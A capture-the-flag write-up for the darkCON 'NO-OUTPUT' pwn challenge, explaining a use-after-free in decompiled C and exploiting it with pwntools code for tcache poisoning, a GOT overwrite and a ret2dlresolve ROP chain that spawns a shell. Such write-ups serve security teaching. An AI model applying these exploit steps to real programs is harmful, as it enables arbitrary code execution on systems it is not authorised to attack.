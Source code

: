 # Pwn/NO-OUTPUT [495]

```
Ok !!! This challenge doesn't give any output. Now try to get the shell.
The libc has tcache enabled (not libc-2.32) and you don't require libc for this challenge at all. This challenge can be done without having libc. You don't need to guess or bruteforce libc.
connection: nc 13.233.166.242 49153
```

**Files**: [NO-Output.zip](https://darkc0n.blob.core.windows.net/challenges/NO-Output.zip) (`NO_output`)

```c
$ checksec NO_Output
[*] '/NO_Output'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Figuring out what to do

The code for this challenge is structurally similar to that of [Warmup](Warmup.md), so we'll be inspecting the differences more closely.

`init()` does something weird:

```c
void init() {
  char s[24]; // [rsp+10h] [rbp-20h]
  for (int i = 0; i <= 71; ++i) {
    char c = fgetc(stdin);
    if ( c == '\n' )
      break;
    s[i] = c;
  }
}
```

This is clearly an overflow, but overflowing here will cause a stack protector failure. We'll probably need to jump back to here later to perform ROP for one reason or another.

`main()` now has 3 options: `add()`, `edit()`, and `delete()`.

```c
unsigned getIndex() {
  int ind; // [rsp+Ch] [rbp-4h] BYREF
  scanf("%d", &ind); getchar();
  if ( ind < 0 || ind > 15 )
    exit(0);
  return ind;
}
unsigned getValidSize() {
  int sz; // [rsp+Ch] [rbp-4h] BYREF
  scanf("%d", &sz); getchar();
  if ( sz < 0 || sz > 4096 )
    exit(0);
  return sz;
}
void add() {
  int ind = getIndex();
  int size = getValidSize();
  chunks_len[ind] = size;
  chunks[ind] = (char *)malloc(size);
  for (int i = 0; ; ++i) {
    if ( i >= chunks_len[ind] )
      break;
    char c = fgetc(stdin);
    if ( c == '\n' )
      break; // not nul-terminated!
    chunks[ind][i] = c;  
  }
}
```

The first option allows for an arbitrary allocation of up to 4096 bytes. The bytes inputted don't get nul-terminated, but that isn't very significant here because of the lack of any string manipulation functions.

```c
void edit() {
  int ind = getIndex();
  if ( !chunks[ind] )
    exit(0);
  for (int i = 0; ; ++i) {
    if ( i >= chunks_len[ind] )
      break;
    char c = fgetc(stdin);
    if ( c == '\n' )
      break;
    chunks[ind][i] = c;
  }
  return c;
}
```

`edit()` simply overwrites the first `chunks_len[ind]` bytes at `chunks[ind]`. This in-and-of-itself is not an issue, but combined with the bug here:

```c
void delete() {
  int ind = getIndex();
  if ( !chunks[ind] )
    exit(0);
  free(chunks[ind]); // !!! chunks[ind] is not cleared !!!
}
```

We can make use of the UAF to [allocate an arbitrary pointer](https://github.com/shellphish/how2heap/blob/master/glibc_2.31/tcache_poisoning.c) via the tcache free list.

```python
def tcache_poison(size: int, ptr: int):
    '''put an arbitrary ptr of a specific size at the head of the tcache free list'''
    assert size < 0x400 # must be within tcache size
    # We'll use the last indexes (14 & 15) for temporary storage
    add(14, size, b'first')
    add(15, size, b'second')
    delete(14)
    delete(15)
    edit(15, pack(ptr))
    add(15, size, b'second')
    # after here, the next call for malloc(`size`) will return `ptr`.
```

My immediate idea is to use this arbitrary write primitive to overwrite the GOT table, which would grant us arbitrary code execution... with the addresses we know.

As the title states, this challenge provides **no output**: PIE might be disabled, but there aren't any immediately useful functions available for leaking data. We'll need to obtain a shell without any information leaks.

I got stuck on this for a bit, up until I found an enlightening piece of metadata within IDA:

![image-20210220212611387](image-20210220212611387.png)

_Ah._

## ret2dlresolve

In essence, the `ret2dlresolve` technique is a leakless method for executing libc functions, given that the exploiter has the location of `.text`, along with a sufficiently long region for ROP. You can look up the finer details in writeups online, or you can [abuse pwntools](https://pwntools.readthedocs.io/en/dev/rop/ret2dlresolve.html) like I do.

In short, the solution here is to:

1. Use the UAF/Double-Free poisoning above to write `dlresolve.payload` to `dlresolve.data_addr`. Whatever those things are.

   ```python
   dlresolve = Ret2dlresolvePayload(context.binary, symbol="system", args=["/bin/sh"])
   tcache_poison(0x200, dlresolve.data_addr)
   add(0, 0x200, dlresolve.payload)
   ```

   This is the `rop.read(0, dlresolve.data_addr)` step in the pwntools example.

2. With the same arbitrary write primitive, edit a good function to jump back to `init()` for an overflow, and also [**edit `__stack_chk_fail()` to a `leave; ret;` gadget**](http://wapiflapi.github.io/2014/11/17/hacklu-oreo-with-ret2dl-resolve.html).

   ```python
   R = ROP(context.binary)
   leave_ret = R.find_gadget(['leave', 'ret']).address
   tcache_poison(0x18, context.binary.got['free'])
   add(0, 0x18, pack(context.binary.symbols['init']) + pack(leave_ret))
   ```

    Since `free()` is adjacent to `__stack_chk_fail()` in the GOT table, I used `free()` as that `init()` trampoline.

3. Use the ROP available at `init()` in conjunction with the [ret2dlresolve](https://pwntools.readthedocs.io/en/dev/rop/ret2dlresolve.html) module to call `system("/bin/sh")`.

   ```python
   R.raw(b'a'*0x28)
   R.ret2dlresolve(dlresolve)
   delete(0) # trigger free(), which triggers init()
   r.sendline(R.chain())
   r.interactive()
   ```

   

That's that.

## Flag

`darkCON{R3t_t0_dlr3s0lv3_c0mb1n1n9_w1th_tc4ch3_p01s0n1n9_4tt4ck}`
